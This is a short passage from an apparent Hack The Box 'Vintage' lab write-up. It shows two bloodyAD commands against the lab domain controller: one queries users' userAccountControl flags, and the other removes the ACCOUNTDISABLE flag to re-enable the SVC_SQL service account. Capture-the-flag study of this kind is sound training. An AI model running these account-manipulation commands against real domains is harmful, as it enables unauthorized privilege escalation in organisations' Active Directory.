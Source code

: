 ![alt text](../assets/images/vintage12.png)
we can check with bloodyAD too.

```bash
➜  Vintage bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl
```

![alt text](../assets/images/vintage13.png)

Lets enable it 

```bash
➜  Vintage bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

